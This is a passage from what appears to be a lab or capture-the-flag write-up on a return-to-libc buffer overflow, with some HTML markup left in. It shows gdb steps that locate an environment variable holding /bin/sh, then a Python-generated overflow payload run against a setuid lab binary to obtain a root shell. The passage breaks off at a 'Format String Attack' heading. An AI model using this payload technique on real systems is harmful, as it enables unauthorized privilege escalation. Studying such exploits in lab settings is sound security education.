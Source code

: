 (gdb)
<span class="hljs-number">0xffffdca3</span>:     <span class="hljs-string">"_=/usr/bin/gdb"</span></code></pre>

<p>This is how you figure out the address of the whole environment table. Step through it ad figure out where is the <code>EVIL</code> variable stored.</p>



<pre class="prettyprint"><code class=" hljs bash">(gdb)
<span class="hljs-number">0</span>xffffddbc:     <span class="hljs-string">"EVIL=/bin/sh"</span>
(gdb) x/s <span class="hljs-number">0</span>xffffddc1
<span class="hljs-number">0</span>xffffddc1:     <span class="hljs-string">"/bin/sh"</span></code></pre>

<p>Perfect! Now we have an address for <code>/bin/sh</code>. Next let’s add this to the exploit string. And try it out inside <code>gdb</code> first</p>



<pre class="prettyprint"><code class=" hljs tex">(gdb) run <span class="hljs-formula">$(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xc</span>6<span class="hljs-command">\xdd</span><span class="hljs-command">\xff</span><span class="hljs-command">\xff</span>"')
Starting program: /c0re/attacklib1 $</span>(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xc</span>6<span class="hljs-command">\xdd</span><span class="hljs-command">\xff</span><span class="hljs-command">\xff</span>"')
running as uid = 1030, euid = 1030
<span class="hljs-formula">$</span></code></pre>

<p>Yes! We spawn a shell! <br>
Now let’s try it with the program itself. Note, there is another program with <code>euid=0</code> called <code>attacklib1</code> so you don’t have t worry about the discrepancy between your <code>uid</code> and <code>euid</code></p>



<pre class="prettyprint"><code class=" hljs tex">rwang74@4550866279a6:/c0re<span class="hljs-formula">$ /c0re/attacklib1 $</span>(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xc</span>1<span class="hljs-command">\xdd</span><span class="hljs-command">\xff</span><span class="hljs-command">\xff</span>"')
running as uid = 1030, euid = 0 
<span class="hljs-special">#</span> whoami
<span class="hljs-special">#</span> root</code></pre>

<p>Yayyyyy! We exploited a program without inject shellcode!</p>



<h2 id="format-string-attack">Format String Attack</h2>
